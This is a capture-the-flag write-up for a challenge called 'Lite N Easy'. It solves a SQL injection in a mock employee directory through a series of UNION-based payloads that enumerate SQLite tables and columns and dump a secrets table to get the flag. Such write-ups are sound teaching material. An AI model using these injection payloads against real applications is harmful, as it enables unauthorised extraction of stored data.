 # Lite N Easy

## Challenge Description

You've discovered a simple employee directory for a company called "SecureCorp". The flag is stored somewhere on the server. Can you extract the flag?

<img width="972" height="535" alt="image" src="https://github.com/user-attachments/assets/6e50fc24-5fbe-4eaa-b025-18ff05fe3e11" />

<img width="1013" height="920" alt="image" src="https://github.com/user-attachments/assets/a536bc0a-dcd7-48da-85ed-86c5d2579435" />

### 2. **Test for Reflected Columns**

```sql
sql
CopyEdit
' UNION SELECT 1,2,3,4,5,6-- -

```

> Whichever number appears in the output is the reflected column — here it's column 1.
> 

---

### 📂 3. **List All Tables**

```sql
sql
CopyEdit
' UNION SELECT name,null,null,null,null,null FROM sqlite_master WHERE type='table'-- -

```

---

### 📋 4. **List Columns of `secrets`**

```sql
sql
CopyEdit
' UNION SELECT name,null,null,null,null,null FROM pragma_table_info('secrets')-- -

```

---

### 📋 5. **List Columns of `employees`**

```sql
sql
CopyEdit
' UNION SELECT name,null,null,null,null,null FROM pragma_table_info('employees')-- -

```

---

### 🔐 6. **Dump All Rows from `secrets`**

```sql
sql
CopyEdit
' UNION SELECT secret_name || ':' || secret_value,null,null,null,null,null FROM secrets-- -

```

This will pop the flag

<img width="1130" height="300" alt="image" src="https://github.com/user-attachments/assets/f8865086-bb47-4ad0-bfc3-6602925fb9b1" />
